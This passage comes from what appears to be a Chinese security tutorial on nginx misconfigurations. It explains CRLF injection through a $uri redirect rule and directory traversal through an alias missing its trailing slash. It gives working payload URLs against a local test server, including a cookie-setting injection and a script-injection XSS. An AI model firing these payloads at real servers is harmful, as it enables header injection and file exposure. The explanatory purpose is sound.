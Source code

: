 就可以访问成功

不过在测试并没有成执行admin.php，只返回一个**404 file not found**

---

### 配置错误导致漏洞

**1、CRLF注入漏洞**

如果在nginx想要强制http转https，而配置文件却如下

```
location / {
    return 302 https://$host$uri;
}
```

Nginx会将`$uri`进行解码，导致传入%0a%0d即可引入换行符，造成CRLF注入漏洞

payload1

```
http://127.0.0.1:8080/%0a%0dSet-Cookie:a=1
```

![1566528663588](\images\1566528663588.png)

P神的《[Bottle HTTP 头注入漏洞探究](https://www.leavesongs.com/PENETRATION/bottle-crlf-cve-2016-9964.html)》，利用里面的技巧可以实现XSS

payload2

```
http://127.0.0.1:8080/%0a%0dX-XSS-Protection:0%0a%0d%0a%0d%0a%0d<script>alert(location.href)</script>
```

![1566529151959](\images\1566529151959.png)

---

**2、目录穿越**

为了能让用户访问到指定文件夹，通常使用**root**或**alias**来配置

如果在配置Alias的时候，忘记加 **/** ,将会造成目录穿越漏洞

```
location /files {
    alias /home/;
}
```

访问

```
http://127.0.0.1:8081/files/
```

![1566529808873](\images\1566529808873.png)
